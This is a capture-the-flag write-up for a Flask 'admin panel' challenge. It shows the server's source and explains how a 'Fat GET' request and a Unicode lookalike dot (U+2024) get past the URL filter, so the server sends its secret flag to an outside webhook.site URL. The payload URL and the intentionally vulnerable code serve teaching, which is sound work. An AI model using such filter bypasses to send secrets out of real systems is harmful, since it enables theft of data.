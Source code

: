 ## Description

Here is my admin panel where I can make secret requests to my internal services and no one else should be able to do that.
But some hackers managed to do it, help me find the issue.
I have also made some changes to the code but I'm not sure if this will fix it.

**source code available**

## Solution

upon visiting the site, we get this page :

![mainpage](images/mainpage.png)

let's check the source code and see what happens when we submit something :

```python
from flask import Flask, request, jsonify, render_template
import requests
from unidecode import unidecode
app = Flask(__name__)
FLAG="shellmates{fakeflag}"

@app.route('/')
def index():
    return render_template('index.html')

@app.route('/operation', methods=['GET',
                                # 'POST' I hope this will fix the issue
                                ])
def print_body_param():
    body_param = request.get_json()
    url = body_param.get('url', None)
    if url:
        # no points and no % => no external urls
        if ("%" in url) or ("." in url):
            return jsonify({"msg":"only requests to localhost are allowed"}),401
        # cleaning the url to store it later
        url=unidecode(url)
        url=url.replace(" ","")
        # sending request to local services
        try:
            res=requests.get(url+f"?secret={FLAG}")
            return jsonify({"msg":"request sent succesfully"}),200
        except:
            return jsonify({"msg":"soomething went wrong"}),500
    else:
        return jsonify({"msg":"no url was provided"}),400

if __name__ == '__main__':
    app.run(debug=False)
```

so when we submit a url, it will be sent in a parameter called `url`, then it checks if there is a `.` or `%`, and if so we get a 401 response.

if our URL is clean it proceeds to `unidecode` it and then send a request to it with the flag in the `secret` parameter.

so we need to setup a server and bypass that check to get a request to our server with the flag.

we can set a public server using `https://webhook.site/`, we can view all interactions with our given URL, but as all urls, it contains the dot characters which is filtered.

first let's intercept the submission request with burpsuite, and when we send it we get :

![denied](images/denied.png)

that's logical cause the server is set to only receive GET requests on this endpoint, but with GET we can't send json data in the URL, and here comes an interesting technique known as `Fat GET`, which is sending POST data in the body but with a GET request, so let's change the method from GET to POST and send it again :

![success](images/success.png)

that worked, now the only problem is how to bypass the filtered dot in our URL.

notice that the URL is getting `unidecoded`, this means we can specify unicode characters in the parameter, and with this we can actually bypass the filter by specifying other unicode characters that represent dots, i asked ChatGPT to give me some of the dots unicode :

![gpt](gpt.png)

cool, now if we replace the dot in our URL, we get something like this :

```
https://webhook\u2024site/270d21e8-85f2-4646-8060-25af2d23ec20
```

let's try submitting it :

![burp](images/burp.png)

we see that the request sent succesfully, let's check our web-hook :

![flag](images/flag.png)

- flag : `shellmates{GETT1nG_FAT_w1Th_UN1C0DE_inj3CtiON}`

